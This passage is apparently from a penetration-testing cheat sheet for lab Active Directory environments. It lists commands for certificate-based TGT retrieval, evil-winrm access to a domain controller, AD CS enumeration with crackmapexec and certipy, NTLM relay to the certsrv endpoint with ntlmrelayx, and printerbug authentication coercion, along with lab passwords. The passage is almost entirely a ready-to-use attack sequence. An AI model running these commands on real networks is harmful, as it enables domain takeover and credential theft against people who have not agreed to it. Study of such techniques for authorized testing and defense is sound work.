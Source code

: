 After this get the TGT ticket and connec to dc01

```bash
# Get ticket
python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z ZENCORP.LOCAL/jperez jperez.ccache

# Winrm into DC
KRB5CCNAME=jperez.ccache evil-winrm -i dc01.zencorp.local -r ZENCORP.LOCAL
```

### <mark style="color:yellow;">NTLM Relay Attacks Targeting AD CS</mark>

AC CS manages digital certificates, including issuance for communications, digital signing and encryption.

```bash
# Find out which host AD CS service is running
crackmapexec ldap 172.16.117.0/24 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -M adcs

# List all certificates
crackmapexec ldap 172.16.117.3 -u plaintext$ -p 'o6@ekK5#rlw2rAe' -M adcs -o SERVER=INLANEFREIGHT-DC01-CA
```

#### Using Certipy which can enumerate and attack all of the ESC attacks.

```bash
certipy find -enabled -u 'plaintext$'@172.16.117.3 -p 'o6@ekK5#rlw2rAe' -stdout
```

#### Check if NTLM is used to check if endpont is exploitable

```bash
# Using Curl
curl -I http://172.16.117.3/certsrv/

# Using NTLMRecon
./NTLMRecon -t http://172.16.117.3/ -o json | jq
```

### <mark style="color:yellow;">**Run ntlmrelayx to Perform AD CS Relay Attacks**</mark>

```
sudo ntlmrelayx.py -t http://172.16.117.3/certsrv/certfnsh.asp -smb2support --adcs --template Machine
```

#### Use printerbug to coerce SMB NTLM authentication

```bash
python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30
```
